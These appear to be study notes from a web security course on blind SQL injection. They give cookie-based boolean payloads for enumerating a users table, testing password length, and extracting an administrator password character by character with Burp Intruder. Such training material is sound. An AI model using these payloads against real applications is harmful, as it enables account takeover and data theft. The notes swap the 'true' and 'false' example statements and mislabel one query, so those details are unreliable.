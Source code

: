 # Section 14: Blind SQL Injections

## Discovering Blind SQL Injections

- Classic SQL injection
- Attackers can exploit the web application to run SQL queries
- The result is <b>NOT returned to the web application</b>

Example: check in Burp that a GET product request has a request cookie with TrackingId

Run and true statement: `' anD 2=1--`

Run and false statement: `' anD 2=2--`

check the displayed result in the page, for this case the false statement does not display a "Welcome back!" text


Normal Request --> Original Page

True Statement --> Original Page

False Statement --> <b>Different / Broken Page</b>

---

## Enumerating Table & Column Names

> If we get the "Welcome back!" text the statement is true, otherwise is false


Do we have a table that is called Users

 `' anD (SELECT 'a' FROM users LIMIT 1)='a'--`

```
anD 'a' = 'a'---
```


Do we have a column called Y in the Users table?

 ```
 ' anD (SELECT 'a' FROM users WHERE username='administrator')='a'--
```


Do we have a value in table X.

```
 ' anD (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a'--
```

```
' anD (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a'--
```

---

## Recovering Administrator Password With Burp Intruder

If the first character of the password is 'a'

 ```
 ' anD (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§'--
```
 
If the second character of the password is a
```
' anD (SELECT  SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§'--
```

Can use a script or the Burp Intruder (can replace sign params with a payload)

Right click on request -> Send to Intruder

Intruder -> Clear Signs  -> add Injection after tracking Id with two signs -> go to Intruder Payload that will substitute the s signs -> 
Payload type: Brute forcer -> Character set: alphanumeric -> Min length: 1 -> Max length: 2

---
